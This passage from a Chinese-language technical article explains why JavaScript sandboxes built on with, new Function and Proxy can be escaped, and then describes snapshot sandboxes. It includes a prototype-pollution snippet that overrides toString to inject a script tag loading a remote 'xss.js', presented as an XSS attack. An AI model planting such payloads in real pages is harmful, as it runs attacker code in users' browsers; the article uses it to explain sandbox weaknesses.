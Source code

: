```js
const code = `
  a.b.__proto__.toString = () => {
    new (() => {}).constructor(
      "var script = document.createElement('script');
      script.src = 'http://xss.js;'
      script.type = 'text/javascript';
      document.body.appendChild(script);"
    )()
  };
```

`new Function` 创建的函数默认在全局作用域内，上面的代码字符串中，通过访问原型链的方法，篡改了原型链上的 `toString` 方法，当外部环境调用 `toString` 方法时，`xss` 脚本就会被导入，形成 `xss` 攻击。

Case2：通过原型链实现逃逸

基于原型链的方式，还有一种更简单的方案实现沙箱逃逸，那就是定义一个 `JavaScript` 对象字面量，通过该字面量沿着原型链向上查找，也可以访问到外层的原型对象，实现沙箱逃逸

```js
const code = `
  ({}).__proto__.toString = () => {}
`;
```

可见，`with + new Function + proxy` 的方法只能防君子不能防小人，安全性有待商榷，如果想提高该方案的安全性，可以对 `code` 部分做代码分析或校验，但耗时耗力，最终也很难得到十分完备安全的解决方案。

### 快照沙箱

在某些不支持 `proxy` 的低版本浏览器中，会有一种快照沙箱的实现思路，主要实现原理基于 `diff` 方式，存有两个对象 `windowSnapshot` 保存 `window` 上面的快照信息，`modifyPropsMap` 保存沙箱环境与外部环境不同的快照信息。

当沙箱激活后，将 `window` 的全部属性存储到 `windowSnapshot`，同时将 `modifyPropsMap` 存储的沙箱环境加载到 `window` 上；退出沙箱后，利用 `windowSnapshot` 恢复 `window` 环境，将发生变化的属性存储到 `modifyPropsMap`。

可见，快照沙箱的实现本质在于沙箱激活或者退出时分别通过快照的形式记录或者还原状态来实现沙箱。
